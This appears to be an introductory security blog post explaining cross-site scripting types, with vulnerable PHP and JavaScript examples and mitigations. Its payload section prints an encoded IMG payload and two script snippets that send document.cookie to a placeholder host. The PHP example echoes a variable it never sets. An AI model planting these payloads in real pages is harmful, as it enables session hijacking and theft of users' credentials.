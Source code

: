 ```yaml
---
layout: post
title: What Is XSS?
---
```


## What Is It?
Cross-Site Scripting (XSS) is a client-side attack that allows an attacker to run arbitrary Javascript on a web site or application. This enables an attacker to do malicious things such as steal cookies which can lead to session hijacking, steal user credentials, or log keystrokes. 
There are a few different types of Cross-Site Scripting. The most common types are reflected, stored or persistent, and DOM-based XSS. There is also a less common version called mutation XSS (mXSS). Being a client-side attack, what they have in common is that a payload exploiting these vulnerabilities needs to be delivered to the user in some fashion. This, typically, means phishing.

The difference between them, for the most part, is self-explanatory. A search function that displays the input entered back onto the page is a good example of reflected XSS. 

Consider the following code snippet:
```
<body>
	<form action=”” method=”get”>
		<input type=”text” name=”search”>
		<input type=”submit” value=”Submit”>
	</form>
```

```php
  <?php
    $query = $_GET['search'];
    echo "Results for: $search"; 
  ?>
```
The XSS payload would be stored within the $query variable and then executed as it is reflected onto the page.
Stored XSS, on the other hand, means the payload is not immediately executed. It will be stored in a database, and upon retrieval will be executed somewhere. This could be the comment section of a blog for example. First, an attacker would submit a XSS payload as a comment. Then, once a user navigates to the post that comment is for, the payload would execute.

DOM-based XSS is where things get tricky. To understand this attack, one must first understand the DOM. This stands for the Document-Object Model. It is a tree-representation of the structure of documents in memory. Essentially, Javascript interacts with and manipulates the HTML on a website through the DOM. 
DOM-based XSS comes into play when Javascript methods such as .innerHTML are used with unsanitized data. 

Consider the following code snippet:
```javascript
let input = post.author;
element.innerHTML = input;
```
Since the input variable is user-supplied, a malicious payload could be supplied. DOM-based XSS can get very complicated so there will be other resources listed at the end that will explain it better. 

## What does it look like?
A XSS payload can be as simple as &lt;script&gt;alert(1)&lt;/script&gt; or as complex as &lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116
&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039
&#0000088&#0000083&#0000083&#0000039&#0000041&gt;.

While Flash and ActiveX can also be vectors for XSS, today, it tends to be javascript. So, any javascript code could potentially be a XSS payload. 
Generally, &lt;script&gt;alert(1)&lt;/script&gt; is used to test for the vulnerability to see if it is exploitable. 

The following code snippets may also be seen:
```
<script>
  let image = new Image(); 
  image.src='http://example.com?c='+document.cookie;
</script>
```
```
<script>
  document.location="http://example.com?c="+document.cookie;
</script>
```
## Mitigations
There are several ways to mitigate against XSS. All of them originate from the same consideration: never trust user input. And none of them should ever be solely relied upon.

A well-configured Content-Security Policy (CSP) can be a great step towards preventing XSS. It defines trust boundaries for scripts, stylesheets and other media sources. 

Input validation and sanitization are also excellent options. Input validation is the process of ensuring the data submitted is what was expected. Input sanitization is the process of removing or manipulating potentially malicious data. 

## Resources
[DOM XSS Explained](https://www.acunetix.com/blog/articles/dom-xss-explained/)

[DOM Based XSS Software Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS)

[What is DOM Based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Content-Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

[Content-Security Policy - Google](https://developers.google.com/web/fundamentals/security/csp/)

[Content-Security Policy: Use Cases](https://beaglesecurity.com/blog/article/content-security-policy.html)
